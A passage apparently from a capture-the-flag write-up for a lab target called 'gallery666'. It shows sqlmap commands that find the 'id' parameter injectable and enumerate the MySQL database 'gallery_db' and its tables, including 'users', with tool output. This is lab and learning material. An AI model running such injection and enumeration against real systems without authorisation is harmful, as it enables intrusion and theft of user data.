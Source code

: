 ![7b89e4d2042b906ee4a3436f7a6c89a6.png](https://raw.githubusercontent.com/mor88888888/writeups/main/gallery666/_resources/7b89e4d2042b906ee4a3436f7a6c89a6.png)

```bash
sqlmap -r Documents/gallery666/test.req --dbs
```
```
...
[07:39:14] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
...
[07:39:15] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
...
[INFO] the back-end DBMS is MySQL
...
[07:39:20] [INFO] fetching database names
available databases [2]:
[*] gallery_db
[*] information_schema
```

```bash
sqlmap -r Documents/gallery666/test.req --tables -D gallery_db
```
```
Database: gallery_db
[4 tables]
+-------------+
| album_list  |
| images      |
| system_info |
| users       |
+-------------+
```

